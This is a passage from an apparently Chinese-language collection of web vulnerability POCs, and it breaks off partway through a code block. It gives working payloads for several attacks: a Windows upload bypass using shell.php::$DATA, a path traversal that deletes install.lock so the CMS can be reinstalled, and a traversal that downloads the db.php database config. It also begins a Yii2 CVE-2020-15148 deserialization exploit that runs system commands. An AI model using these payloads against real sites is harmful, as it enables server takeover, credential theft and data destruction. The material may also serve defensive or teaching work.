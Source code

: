 **windows 版本文件上传漏洞**
- POC | Payload | exp
    ```
    后台,系统设置->网站设置->上传配置->允许附件类型,添加类型 shell.php::$DATA
    点击下面的 水印图片上传,之后会在图片部分显示上传路径，在windows下面，会自动忽略后面的::$DATA。
    ```

**任意文件删除漏洞**
- POC | Payload | exp
    ```
    http://domain/xyhai.php? s=/Database/delSqlFiles/sqlfilename/..\\..\\..\\install/install.lock

    POST /xyhai.php?s=/Database/delSqlFiles/batchFlag/1

    key[]=../../../install/install.lock

    访问 http://domain/install 可以重装cms
    ```

**后台任意文件下载**
- POC | Payload | exp
    ```
    http://domain/xyhai.php?s=/Database/downFile/file/..\\..\\..\\App\\Common\\Conf\\db.php/type/zip
    ```

---
### Yii

> 官网 : https://www.yiichina.com/

Yii2 是一个高性能，基于组件的开源 PHP 框架，用于快速开发现代 Web 应用程序。

**CVE-2020-15148 Yii 框架反序列化 RCE**
- 描述

    Yii Framework 2 在其 9月14 日发布的更新日志中公布了一个反序列化远程命令执行漏洞(CVE-2020-15148)。官方通过给yii\db\BatchQueryResult类加上__wakeup()函数，禁用了yii\db\BatchQueryResult的反序列化，阻止了应用程序对任意用户输入调用’unserialize()’造成的远程命令执行。

- 影响版本
    - Yii2 Version < 2.0.38

- 相关文章
    - [CVE-2020-15148 Yii2反序列化RCE POP链分析](https://mp.weixin.qq.com/s/NHBpF446yKQbRTiNQr8ztA)

- POC | Payload | exp
    ```
    <?php
    namespace yii\rest{
        class CreateAction{
            public $checkAccess;
            public $id;

            public function __construct(){
                $this->checkAccess = 'system';
                $this->id = 'ls -al';
            }
        }
    }

